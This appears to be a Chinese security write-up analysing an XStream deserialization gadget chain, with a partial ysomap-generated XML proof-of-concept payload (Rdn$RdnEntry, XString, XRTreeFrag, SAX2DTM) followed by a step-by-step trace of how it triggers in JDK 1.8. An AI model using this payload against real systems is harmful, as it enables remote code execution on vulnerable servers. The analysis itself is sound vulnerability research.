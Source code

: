 ```
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

这次用到的 gadget 入口点为 javax.naming.ldap.Rdn$RdnEntry，在使用该 POC 之前仍然有一个点是需要注意的， <__overrideDefaultParser> 这个标签在低版本的 jdk 中是没有的，需要进行更换。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosox3lDamJaby9UFyWyeeSMiayUXv0DpajGhle56RhQ71EHNPtWe3etiaOAQ/640?wx_fmt=png)

更换成以下标签。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxWtLmBhGTnAica7LYqG3PfUq0WicR4UD9MJX9icZdEIfDibUPYIlpLv3uLg/640?wx_fmt=png)

接下来就用 jdk1.8.20 为例，来进行分析。首先在 POC 中我们可以直观的看到，有两个 Rdn\$RdnEntry 的序列化数据，最外层的触发点是 Rdn\$RdnEntry.compareTo 方法，该方法是对比两个 Rdn\$RdnEntry 的 value 属性是否相同。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosox6BtuaIz7SZJ5DKwfYhh9wic2sYOibEVDmmk5ibb59JicXibpExzHvOcfdXQ/640?wx_fmt=png)

当前对象的 value 属性是一个 Xstring 对象，在 POC 中的这个位置。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxiclGPian2dxpc0c4MvdoSxDCOAL2O4RqvN9HGxXxgQHpP4vP3lziaia4ag/640?wx_fmt=png)

所以跟进 Xstring.equals 方法，该方法中需要注意的是调用了 obj2 也就是传入的 XRTreeFrag.toString 方法，跟进该方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxIwcLQwbcaoWibC4Uf6kOSaM6icTOgq9yaulkmmBSgiaXwksTy7ZVicHc1g/640?wx_fmt=png)

经过一次嵌套调用后，来到 XRTreeFrag.str 方法中 这里调用了之前就封装在 POC 中的 SAX2DTM 对象，如下图所示

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxCI32rJXsHOmqpc9o32RM49UnJjsDE2NDUxic5JME2XWgMNEWvI61msQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxcA3GzsygeYPf2UG25ia2LhxCqBUyZfCTg0aiceKwzicMoeSXVNzfvhhiag/640?wx_fmt=png)
